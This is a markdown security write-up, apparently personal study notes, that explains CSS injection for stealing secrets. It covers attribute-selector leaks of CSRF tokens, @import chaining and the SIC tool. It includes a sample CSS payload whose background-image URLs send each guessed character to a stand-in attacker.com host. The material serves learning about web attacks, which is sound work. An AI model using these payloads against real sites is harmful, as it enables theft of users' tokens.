

**sources**
1) https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b
2) https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf

### CSS Injection Secret Hijacking
It is possible to use a `<style>` attribute to steal data off a webpage without any reloading/redirects at all for the user.

This has a number of advantages including if HTML can be injected but Javascript cannot.

In **source 1**, due to DomPurify, the researcher was unable to inject any Javascript but was able to perform some HTML injection.

They were able to use Attribute selectors to set background images depending on the character of the secret they were trying to get back.

```css
input[name=csrf][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name=csrf][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name=csrf][value^=9]{
    background-image: url(https://attacker.com/exfil/9);   
}
```
This would  then call back to their server on each character, leaking the secret one by one.

In order for this technique to be feasible, 3 prerequisites must be met:
1) Must be able to send long payloads for injection as this takes a lot of text to complete
2) Must be able to frame the page to trigger css re-evaluation (ensure new payload is loaded by client)
3) No CSP blocking external images

In **source 1** they both 1 and 2 were not met and as such needed rework.

### @import
`@import` is used to import code from other source files in CSS. Many people are aware of `<link href="..." rel="stylesheet">` but within CSS directly there is a way to perform a similar inclusion using an `at-rule` called `@import`.

In most cases, it will perform direct in place swap of the fetches styles into the current stylesheet which allows a developer to pull in external styles to override any directives defined in the external resource below the @import line.

One weird side effect of some browsers (especially chrome) is that the external resource can be fetched in parallel to the browser also processing the stylesheet. This has a practical use in exploitation.

Imagine we have the following webpage:
```css
@import url(http://laggysite.com/base.css);
* { color: red; }
```

Chrome will perform 3 steps:
1) Request the .css files from the import
2) Evaluate remaining directives (colour:red)
3) When base.css returns, substitute the response into the webpage and reevaluate the stylesheet.

Now they no longer needed to open a frame to re-evaluate the CSS as they could use this browser quirk.

The only requirement to pull off leaking secrets via CSS is that they MUST have control at the start of a style tag, which is true as they had HTML injection

### Performing the attack
In order to do this, we need to create multiple @import rules and let the server keep all the connections open then they'll use a standard CSS injection token payload to pull out the first token from the target attribute. After the server recieves the token from the background style, they can generate the next token payload and respond to the next pending @import rule with the new payload.

This can be achieved in a single @import rule containing many other imports.

Below is a diagram showing the flow of this attack.



### SIC
A tool was created called Sequential Import Chaining which can be seen used here: https://www.youtube.com/watch?v=ZiLf65iTcaM

In the video, we see vanilla HTML injection being used with SIC to exfil an HREF on the page with a single page load. Of course, this could very easily be used to pull CSRF token from the DOM using the value attribute.

The code for SIC is here: https://github.com/d0nutptr/sic
